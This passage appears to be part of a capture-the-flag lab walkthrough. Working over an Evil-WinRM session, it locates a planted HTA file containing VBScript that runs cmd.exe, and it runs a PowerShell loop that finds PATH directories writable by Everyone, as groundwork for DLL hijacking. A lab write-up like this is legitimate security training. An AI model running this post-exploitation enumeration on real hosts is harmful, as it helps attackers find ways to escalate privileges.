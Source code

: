 ### FLAG 21: HTA Application

**Location**: HTA file  
**Difficulty**: Medium

```powershell
# Find HTA files
*Evil-WinRM* PS C:\> Get-ChildItem -Path C:\Users -Filter "*.hta" -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\Public\Documents\Important

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM            534 portal.hta

*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\Important\portal.hta
<html>
<head>
<!-- Flag: FLAG{P************5} -->
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "cmd.exe /c echo Vulnerable HTA executed > C:\temp\hta.txt", 0, True
</script>
</head>
<body>
    <h1>Company Portal</h1>
    <p>Welcome to the internal portal</p>
</body>
</html>
```

**🎯 FLAG 21 FOUND**: FLAG{P**********5} - HTA application

**Why HTA Files Are Dangerous**:
- Execute with full user privileges
- Bypass many security controls
- Look like harmless web pages
- Can run VBScript/JavaScript

### FLAG 22: DLL Hijacking Path

**Location**: Writable PATH directory  
**Difficulty**: Hard

```powershell
# Check PATH for writable directories
*Evil-WinRM* PS C:\> $env:Path -split ';' | ForEach-Object { 
    if(Test-Path $_) {
        $acl = Get-Acl $_
        if($acl.Access | Where-Object {$_.IdentityReference -match "Everyone" -and $_.FileSystemRights -match "FullControl"}) {
            Write-Host "WRITABLE: $_" -ForegroundColor Red
            Get-ChildItem $_ 2>$null
        }
    }
}

WRITABLE: C:\ProgramData\Custom

    Directory: C:\ProgramData\Custom

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM            123 readme.txt

```